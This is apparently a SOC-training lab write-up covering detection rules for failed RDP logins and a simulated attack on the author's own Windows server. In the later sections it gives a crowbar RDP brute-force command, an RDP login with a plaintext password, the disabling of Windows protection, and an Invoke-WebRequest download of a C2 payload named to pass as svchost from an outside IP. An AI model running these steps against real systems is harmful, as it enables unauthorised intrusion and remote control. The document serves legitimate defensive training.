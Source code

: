 # Week 3: Brute Force RDP Attack Simulation and Mythic C2 Setup

Hey everyone! Welcome to Week 3 of the **30-Day SOC Analyst Challenge**. This week, I jumped into setting up the **Mythic C2C** and got the **Apollo Agent** configured. I’ve learned a ton and will walk you through everything I did, why I did it, and share some helpful tips to make your setup process smoother if you're following along.

### 1. Finding Exposed RDP Servers
- **Using Shodan**: Search for servers with exposed RDP on the default port.
  ![Shodan Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2043%20Creating%20an%20account%20with%20shodan%20and%20searching%20port%203389.PNG) 
- **Using Censys**: Perform the same search to verify results.
  ![Censys Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2044%20Using%20Censys%20for%20Finding%20open%20RDP%20ports%20too.PNG) 

### 2. Monitoring Failed RDP Attempts
- Created a log query for failed RDP attempts and confirmed my own failed login.
  ![Failed RDP Log Query](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2045%20Saving%20a%20log%20query%20for%20Failed%20RDP%20Login%20Attempts%2C%20seeing%20my%20own%20log!.PNG) <!-- Replace with actual image link -->
- Created an alert for failed RDP attempts.
  ![Alert Generation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2046%20Creating%20the%20Alert%20rule%20for%20failed%20RDP%20Attempts.PNG) <!-- Replace with actual image link -->
- Executed a brute force attack on my Windows server to generate an alert.
  ![Brute Force Alert](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2047%20Generating%20an%20alert%20via%20brute%20force%20RDP.PNG) <!-- Replace with actual image link -->

### 3. Configuring Detection Rules
- **Detection Rule Setup**:
    - Current rules only query thresholds; need to create detection rules under **Security**.
      ![Detection Rule Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2048%20This%20is%20where%20we%20make%20REAL%20alerts.PNG) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment. I chose to make my own
      ![Preconfigured Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2049%20Lets%20Create%20a%20new%20rule.PNG) <!-- Replace with actual image link -->
    - Configured data involved in the new rules, mirroring the process used for SSH attempts.
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%205%20Set%20it%20to%20this%20so%20you%20can%20access%20it%20via%20SOC%20Laptop.png) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2050%20Select%20this%20type%20of%20rule.PNG) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2052%20My%20new%20rules%20are%20set.PNG) <!-- Replace with actual image link -->

### 4. Data Visualization
- Developed tables for dashboard visualization:
    - **Failed and Successful SSH Attempts** to the exposed Ubuntu server.
      ![SSH Attempts Visualization](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2054%20Created%20some%20tabled%20for%20my%20dashboard%20to%20visualize%20SSH%20data%20on%20my%20linux%20server.PNG) <!-- Replace with actual image link -->
    - **RDP Activity Tracking** on the exposed Windows server.
      ![RDP Activity Table]([link_to_your_image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2055%20Made%20some%20tables%20for%20the%20RDP%20activity%20on%20Windows%20Server.PNG)) <!-- Replace with actual image link -->

### 5. Attack Diagram Creation
- Created an attack diagram outlining the threat actor's process.
  ![Attack Diagram](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2056%20Network%20Attack%20Diagram.PNG) <!-- Replace with actual image link -->

### 6. Setting Up Mythic C2
- **Spin Up Ubuntu Server**:
    ```bash
    sudo apt install docker-compose
    sudo apt install make
    git clone https://github.com/its-a-feature/mythic
    cd mythic
    docker-compose up -d
    sudo systemctl restart docker
    ```
  ![Ubuntu Server Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2057%20Install%20Mythic%20Github%20Repo.PNG) <!-- Replace with actual image link -->
- Checked Docker status before restarting the service.
  ![Docker Status](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2058%20run%20the%20docker%20install%20command%20in%20your%20mythic%20directory.PNG) <!-- Replace with actual image link -->

### 7. Starting Mythic
- Run the following command to start Mythic:
    ```bash
    make
    ./mythic-cli start
    ```
### 8. Configuring Mythic
- Tightened firewall rules, allowing exceptions for Windows and Ubuntu servers.
  ![Firewall Configuration](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2059%20This%20is%20what%20my%20firewall%20looks%20like%20now%2C%20only%20allowing%20my%20windows%20and%20linux%20server%2C.PNG) <!-- Replace with actual image link -->
- Accessed Mythic web GUI:
    - Default user: `mythic_admin`
    - Find password with:
        ```bash
        cat .env | grep -i admin_password
        ```
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2060%20Get%20your%20mythic%20admin%20password.PNG) <!-- Replace with actual image link -->
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2061%20We're%20in%20the%20mythic%20dashboard!.PNG) <!-- Replace with actual image link -->
### 9. Preparing for the Attack
- Created a target file on the Windows VM with admin password called "passwords.txt"
- Moved to Kali Linux machine wordlists directory and prepared `rockyou.txt`:
    ```bash
    gunzip rockyou.txt.gz
    head -n 50 rockyou.txt > ~/Documents/top_50_words.txt
    ```
  ![Preparing Wordlists](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2062%20lets%20access%20our%20wordlists%20directory.png) <!-- Replace with actual image link -->
### 10. Brute Force with Crowbar
- Added the Windows password to the wordlist for easier access. This way we can simulate our attack as if someone brute forced
- Installed Crowbar:
    ```bash
    sudo apt-get install -y crowbar
    ```
  ![Crowbar Installation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2064%20Crowbar%20Successfully%20installed.png) <!-- Replace with actual image link -->
- (Note, I extracted the first 50 words in rockyou.txt to a file named top_50_words.txt, this is the text file i added the windows server password into)
- **Brute Force Command**:
    ```bash
    crowbar -b RDP -u Administrator -C top_50_words.txt -s 155.138.220.109
    ```
  ![Brute Force Command](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2066%20Successful%20brute%20force!.png) <!-- Replace with actual image link -->
### 11. RDP Session Access
- Used `xfreerdp` to access the RDP session:
    ```bash
    xfreerdp /u:Administrator /p:Winter2024! /v:155.138.220.109
    ```
  ![Accessing RDP Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2067%20Successfully%20in%20the%20RDP%20session!.png) <!-- Replace with actual image link -->
- Executed commands for intelligence gathering:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```
- Turn off windows protection
- ![image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2068%20lets%20disable%20all%20the%20protection.png)


### 12. Downloading, Preparing, and Executing Payload
- SSH into Mythic server and download agent:
    ```bash
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```

- Install HTTP profile:
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```

- Allow port 80:
    ```bash
    ufw allow 80
    ```

- Allow port 9999:
    ```bash
    ufw allow 9999
    ```

- run the python session:
    ```bash
    python3 -m http.server 9999
    ```

- Downloaded the payload onto our windows server RDP session:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ```

### 12. Created the payload with your installed services:
- Ensured it calls back to the C2 server's public IP.
- ![Make sure](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2073%20put%20what%20you%20want%20in%20your%20payload%2C%20and%20make%20it%20call%20back%20to%20your%20C2%20server.PNG)

### 14. Monitor The Connection
- Result of the payload on the Windows server.
  ![Payload Execution](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2077%20We%20can%20see%20our%20established%20session.PNG)
- Monitored Mythic GUI for established session and confirmed successful file extraction from the agent.
  ![Mythic GUI Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2078%20Our%20attack%20was%20successful%2C%20we%20got%20the%20file.PNG) <!-- Replace with actual image link -->

## Conclusion
This week focused on simulating a brute force RDP attack while setting up the Mythic C2 server. Key tasks included finding exposed RDP servers, configuring detection rules, and creating payloads for further exploitation.

